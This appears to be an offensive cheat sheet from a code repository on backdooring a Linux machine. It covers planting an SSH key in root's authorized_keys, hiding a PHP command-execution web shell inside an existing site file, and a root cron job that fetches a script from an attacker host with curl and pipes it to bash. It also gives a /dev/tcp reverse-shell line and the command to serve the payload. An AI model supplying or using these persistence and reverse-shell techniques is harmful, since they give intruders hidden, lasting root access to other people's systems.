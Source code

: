 				SSH BackDoor

-- ssh-keygen                                   Generates ssh key
    -- Leave public key                      	 Place '/root/.ssh'
    -- SSH Name                                    Name 'authorized_keys'
        -- chmod 600 id_rsa               	  Gives permissions

-- ssh -i id_rsa root@ip                    Use BackDoor

				PHP BackDoor

-- Location                                         /var/www/html
    -- BackDoor script                           Script/PHP-BackDoor.php

-- Where to execute script                https://ip/PHP-BackDoor.php

                		Hide script

-- Add in existing PHP File
-- Change the "cmd" parameter, cmd is very obvious

				Cronjob BackDoor
-- crontab -l
-- Add to Cronjob                               * *     * * *   root    curl http://<IP>:8080/shell | bash
    -- Add Script inside Cronjob            #!/bin/bash
								bash -i >& /dev/tcp/ip/port 8080>&1
-- Get Bash shell

-- Host HTTP server                             python3 -m http.server 8080

				Links

-- https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c
